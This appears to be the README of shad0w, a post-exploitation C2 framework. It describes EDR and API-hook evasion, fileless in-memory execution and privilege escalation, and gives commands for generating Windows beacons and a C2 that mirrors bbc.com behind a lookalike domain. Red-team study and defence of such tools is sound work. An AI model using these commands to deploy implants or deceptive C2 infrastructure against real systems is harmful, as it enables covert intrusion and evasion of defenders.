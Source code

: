 # shad0w

[![Project Status](https://img.shields.io/badge/status-BETA-yellow?style=flat-square)]()

shad0w is a post exploitation framework designed to operate covertly on heavily monitored enviroments

### Features

#### C2 Server

- Secure communication over HTTPS.
- Clone and live proxy any website, making the C2 fully browseable.

#### Beacons

- Staged and static beacons
- Shellcode and powershell formats allow for completely fileless attacks
- Uses native windows syscalls
- Bypasses userland API hooking
- Blocks EDR from loading DLLs into its process
- Can execute .NET assemblys, EXEs, DLLs, VBS, JS or XSL files completly in memory
- Common privilage escalation exploits built in
- Interact with the file system
- Configurable C2 callback jitter

#### Interface

- Asynchronous command line
- Auto complete
- Up/Down history
- Reverse command search
- Syntax highlighing

### Coming Soon

- Unmanaged powershell
- Syscalls for older versions of windows
- Kernel mode capability
- More privilage escalation exploits
- Ghost in the logs intergration
- UAC bypasses
- Persistence
- 32 bit support
- More beacon formats

### Install

To install shad0w run the two commands below, making sure you already have docker installed on your system.

    $ git clone https://github.com/bats3c/shad0w.git && cd shad0w
    $ sudo ./shad0w install

### Usage

#### C2

To start the C2 server and have it listening for connections you can use the command.

    $ shad0w listen -e <endpoint>

Where the `<endpoint>` is the IP address or domain name the C2 will be listening on. SSL certificates will also be dynamically generated.

To use the website mirroring functionality you can use the `-m` or `--mirror` flag

    $ shad0w listen -e www.bbc-news.com -m "https://www.bbc.com/"

This will mean that if the C2s address of `www.bbc-news.com` is visited the content of `https://www.bbc.com/` will be retrived and returned. This is also true for any links on the cloned website. If the person browsing the C2 navigated to `https://www.bbc-news.com/sport/football/52799575` the content at `https://www.bbc.com/sport/football/52799575` would be mirrored.

#### Beacons

*Only 64 bit beacons are currently supported*

There are two types of beacons, `secure` and `insecure`. Secure beacons have all the mitigation and evasions techniques built in such syscalls and anti dll injection. These secure beacons are designed to work on the lastest versions of windows.

The insecure beacons are designed to work on a wide variety of windows versions but are designed to be used in situations where detection does not matter.

The synatx for beacon generation.

    $ shad0w beacon -p <payload> -H <c2 address> -f <format> -o <filename>

The format for payloads follows the following syntax

    <arch>/<os>/<secure>/<static>

So to generate a static 64 bit secure windows beacon it would be

    x64/windows/secure/static

Although it is recommended to use staged beacons so the command to generate a staged secure beacon in EXE format would be

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f exe -o beacon.exe

Or for an insecure beacon it would be

    $ shad0w beacon -p x64/windows -H www.bbc-news.com -f exe -o beacon.exe

There are currently 3 different beacon formats; exe, shellcode and powershell
The `-f` flags is used to control the different formats of the beacons.

To generate a beacon in shellcode or powershell format you can use the `raw` or `psh` value respectively 

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f raw -o beacon.bin

    $ shad0w beacon -p x64/windows/secure/static -H www.bbc-news.com -f psh -o beacon.ps1

#### Interface

To get a list of commands you can use the `help` command

    shad0w ≫ help

To get a list of active beacons you can use the `beacons` command

    shad0w ≫ beacons

To interact with a beacon use the `beacons` command with the `-i` flag specifing the beacon id

    shad0w ≫ beacons -i 1

### Credits

- [JUMPSEC](https://www.jumpsec.com/) (for just generally being awesome)
- [The Wover](https://twitter.com/TheRealWover) (cause donut is so good)